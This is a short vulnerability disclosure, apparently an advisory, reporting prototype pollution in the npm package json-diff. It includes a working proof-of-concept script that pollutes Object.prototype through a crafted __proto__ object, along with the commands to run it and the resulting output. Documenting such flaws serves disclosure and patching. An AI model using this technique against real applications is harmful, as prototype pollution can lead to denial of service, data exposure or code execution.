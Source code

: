 # Description

`json-diff` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var jsonDiff = require("json-diff")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
jsonDiff.diff(a, b);
console.log({}.name)
```

2. Execute the following commands in another terminal:

```bash
npm i json-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
